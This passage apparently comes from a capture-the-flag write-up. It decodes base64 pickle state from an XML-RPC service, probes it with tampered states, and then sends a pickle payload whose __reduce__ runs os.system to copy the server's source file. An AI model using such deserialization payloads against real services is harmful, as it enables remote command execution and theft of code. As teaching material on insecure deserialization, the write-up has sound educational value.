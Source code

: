 That's base64, we decode it:

```
>>> s.getstate().decode('base64')
'(I1\n(I4938\nI27446\nI4867\ntp1\nNt.'
```

This is a bit more mysterious, but with a sharp eye and a little patience we can guess it's Python's serialization format (pickle) as hinted in the description.

```
>>> from cPickle import *
>>> loads(s.getstate().decode('base64'))
(1, (4938, 27446, 4867), None)
```

Now that we know the format, let's try sending it garbage.

```
>>> s.setstate(dumps((1, (4938, 27446, 4867), None)).encode('base64'))
>>> s.setstate(dumps((1, (4938, 27446, 0), None)).encode('base64'))
>>> s.setstate(dumps((1, (4938, 0, 0), None)).encode('base64'))
>>> s.setstate(dumps((1, (0, 0, 0), None)).encode('base64'))
>>> s.setstate(dumps((0, (0, 0, 0), None)).encode('base64'))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/xmlrpclib.py", line 1224, in __call__
    return self.__send(self.__name, args)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1578, in __request
    verbose=self.__verbose
  File "/usr/lib/python2.7/xmlrpclib.py", line 1264, in request
    return self.single_request(host, handler, request_body, verbose)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1297, in single_request
    return self.parse_response(response)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1473, in parse_response
    return u.close()
  File "/usr/lib/python2.7/xmlrpclib.py", line 793, in close
    raise Fault(**self._stack[0])
xmlrpclib.Fault: <Fault 1: "<type 'exceptions.ValueError'>:Invalid state data">
```

But the interesting thing here is the pickle format is known to be vulnerable to remote code injection, so we can just upload whatever Python code we want to run. With this we can read the server.py file, for example by copying it to the directory we can access.

```
>>> class Exploit(object):
...   def __reduce__(self):
...     import os
...     return (os.system, ('cp ./server.py ./fileserver/server.py',))
... 
>>> s.setstate(dumps(Exploit()).encode('base64'))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/xmlrpclib.py", line 1224, in __call__
    return self.__send(self.__name, args)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1578, in __request
    verbose=self.__verbose
  File "/usr/lib/python2.7/xmlrpclib.py", line 1264, in request
    return self.single_request(host, handler, request_body, verbose)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1297, in single_request
    return self.parse_response(response)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1473, in parse_response
    return u.close()
  File "/usr/lib/python2.7/xmlrpclib.py", line 793, in close
    raise Fault(**self._stack[0])
```